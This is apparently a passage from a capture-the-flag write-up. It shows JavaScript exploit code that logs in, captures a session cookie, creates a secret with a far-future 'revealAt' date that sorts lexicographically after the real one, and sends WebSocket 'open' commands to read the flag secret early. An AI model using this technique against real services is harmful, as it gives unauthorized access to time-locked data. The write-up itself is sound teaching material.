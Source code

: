 ```JS
	process.exit(1);
}

const setCookie = loginResponse.headers.get("set-cookie");
if (!setCookie) {
	console.error("No set-cookie header in login response");
	process.exit(1);
}

const cookie = setCookie.match(/session=([^;]+)/)[0];

console.log("user", username, "cookie", cookie);

// Create a secret with a lexicographically larger reveal date
const createResponse = await fetch(`http://localhost:3000/api/secrets/create`, {
	method: "POST",
	headers: { "Cookie": cookie, "Content-Type": "application/json" },
	body: JSON.stringify({
		name: "diet",
		secret: "coke",
		revealAt: "+100000-01-01T00:00:00.000Z",
	}),
});

const secretId = (await createResponse.json()).id;

console.log("Created secret", secretId);

// Open a WebSocket connection
const ws = new WebSocket("wss://localhost:3000/api/ws");

ws.addEventListener("open", () => {
	ws.addEventListener("message", (event) => {
		console.log(event.data);
	});
	ws.send(JSON.stringify({ command: "open", id: secretId }));
	ws.send(JSON.stringify({ command: "open", id: FLAG_SECRET_ID }));
});

```

Key parts 

The **initial payload** has the `revealAt` set to `"+100000-01-01T00:00:00.000Z"`, which is lexicographically larger than the current reveal date.

```JS
ws.addEventListener("open", () => {
	ws.addEventListener("message", (event) => {
		console.log(event.data);
	});
	ws.send(JSON.stringify({ command: "open", id: secretId }));
	ws.send(JSON.stringify({ command: "open", id: FLAG_SECRET_ID }));
});
```
